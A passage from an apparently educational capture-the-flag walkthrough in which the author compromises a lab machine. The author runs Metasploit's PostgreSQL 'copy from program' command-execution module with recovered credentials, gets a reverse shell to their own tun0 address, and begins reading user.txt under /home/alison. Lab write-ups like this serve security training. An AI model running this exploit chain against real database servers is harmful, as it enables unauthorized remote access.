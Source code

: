 This pair of username and password can be submitted as the answer to the fifth question.

We can now look for some exploit for the same RDBMS to gain access to the machine. 

11. ##### What is the full path of the module that allows arbitrary command execution with the proper user credentials (starting with exploit)?

From the list of exploits when we search for `postgres` in metasploit, we can see one module defined as 'copy from program command execution'. We can use it to gain access to the machine and also submit the name of that module as the answer to the eleventh question.

12. #####  Compromise the machine and locate user.txt

To use the module we need to set the rhost, username, password and lhost values.

```
msf5 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set rhosts 10.10.179.1
rhosts => 10.10.179.1
msf5 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set username xxxxxxxx
username => postgres
msf5 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set password xxxxxxxx
password => password
msf5 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set lhost tun0
lhost => 10.8.91.135
msf5 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > run
```

Once we run the module, we get a shell as user `postgres`. 

```
msf5 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > run

[*] Started reverse TCP handler on 10.8.91.135:4444 
[*] 10.10.179.1:5432 - 10.10.179.1:5432 - PostgreSQL 9.5.21 on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 5.4.0-6ubuntu1~16.04.12) 5.4.0 20160609, 64-bit
[*] 10.10.179.1:5432 - Exploiting...
[+] 10.10.179.1:5432 - 10.10.179.1:5432 - m2t5d2dp3tE dropped successfully
[+] 10.10.179.1:5432 - 10.10.179.1:5432 - m2t5d2dp3tE created successfully
[+] 10.10.179.1:5432 - 10.10.179.1:5432 - m2t5d2dp3tE copied successfully(valid syntax/command)
[+] 10.10.179.1:5432 - 10.10.179.1:5432 - m2t5d2dp3tE dropped successfully(Cleaned)
[*] 10.10.179.1:5432 - Exploit Succeeded
[*] Command shell session 1 opened (10.8.91.135:4444 -> 10.10.179.1:36968) at 2020-09-20 23:41:02 +0530

whoami
postgres
pwd
/var/lib/postgresql/9.5/main
```

On trying to explore, we can see that we stay stuck in the same directory. So, in order to access any directory we need to mention it's full path. We can look for different users and their directories in `/home`.

```
ls -la /home/alison 
total 40
drwxr-xr-x 4 alison alison 4096 Jul 28 20:26 .
drwxr-xr-x 4 root   root   4096 Jul 28 20:13 ..
-rw------- 1 alison alison 2444 Jul 28 20:37 .bash_history
-rw-r--r-- 1 alison alison  220 Jul 28 14:30 .bash_logout
-rw-r--r-- 1 alison alison 3771 Jul 28 14:30 .bashrc
drwx------ 2 alison alison 4096 Jul 28 14:42 .cache
drwxr-xr-x 2 alison alison 4096 Jul 28 20:13 .nano
-rw-r--r-- 1 alison alison  655 Jul 28 14:30 .profile
-rw-r--r-- 1 alison alison    0 Jul 28 14:42 .sudo_as_admin_successful
-rw------- 1 alison alison   35 Jul 28 20:26 user.txt
-rw-r--r-- 1 root   root    183 Jul 28 17:18 .wget-hsts
cat /home/alison/user.txt
```